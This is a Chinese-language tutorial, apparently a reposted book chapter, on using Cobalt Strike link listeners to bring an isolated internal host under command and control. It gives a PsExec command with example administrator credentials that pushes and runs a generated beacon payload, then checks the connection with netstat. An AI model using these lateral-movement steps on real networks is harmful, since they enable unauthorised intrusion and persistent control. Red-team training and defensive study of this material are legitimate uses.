



# Cobalt Strike Link Listener

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/7.html](http://book.iwonder.run/Tools/Cobalt Strike/7.html)

实战中往往还会遇到通过某种方式，获取到目标内网中某台主机的系统权限，但是该主机处在隔离网络中，不能出网。因为 CobalStrike 服务端是搭建在互联网中的，通过常规方式是无法上线的，这里就需要利用已上线的主机，将它做一个 Listener，实现链路上线 CobalStrike。

> 首先，在已上线的主机创建 Listener，监听端口可自定义。


> 择 Attacks->Packages->Windows Executable(Stageless)，支持导出该类型 Listener 对应的可执行文件或 dll 等。



> 注意，选择刚建立的 Listener 名字，Proxy 可不设置，这里生成 exe 保存本地。(未免杀)


> 上传刚才生成的 payload 到当前已上线的目标机中，还需要上传另一个工具 PsExec.exe 。（CobalStrike 本身 psexec 功能不够强大，且方法不唯一）

[https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec](https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec)


> 在 Beacon 中使用 PsExec 工具将 payload 上传到不出网的目标机中，自动执行，上线。

```
beacon> shell C:\WINDOWS\Temp\PsExec.exe -accepteula \\192.168.144.155,192.168.144.196 -u administrator -p admin@123 -d -c C:\WINDOWS\Temp\beacon.exe 
```



> 端口查看，实际不出网目标机（192.168.144.196）是与出网目标机（192.168.144.155）正在建立连接。

```
beacon> shell netstat -ano |findstr 4444 
```



> 因为这是 link 链接，只要主链路（即出网机 Listener）掉线，就都会掉线！

